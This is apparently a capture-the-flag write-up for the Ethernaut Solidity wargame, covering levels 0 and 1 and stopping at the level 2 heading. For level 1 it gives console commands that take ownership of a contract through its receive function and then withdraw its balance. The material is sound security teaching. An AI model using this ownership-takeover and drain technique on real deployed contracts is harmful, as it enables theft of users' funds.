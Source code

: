 # Ethernaut

## 0. Hello Ethernaut

* Flag "ethernaut0" is stored in the public `password` field

```
await contract.password()
```

* Calling `authenticate("ethernaut0")` solves the tutorial

```
await contract.authenticate("ethernaut0")
```

## 1. Fallback

* The `receive` function sets `owner = msg.sender` if the sender sends any
  amount of eth and also has a non-zero entry in the contributions mapping

* Send 0.0001 eth via `contribute` function to register a non-zero contribution
  for the sender address (send < 0.001 eth to get past the require statement)

```
await contract.contribute({value: toWei("0.0001")})
```

* Trigger the receive function by sending eth directly to the contract address

```
await sendTransaction({
  'from': player,
  'to': contract.address,
  'value': 1,
  'gas': 30000,
})
```

* We are now the owner. Call `withdraw` to drain the contract.

```
await contract.withdraw()
```

## 2. Fallout




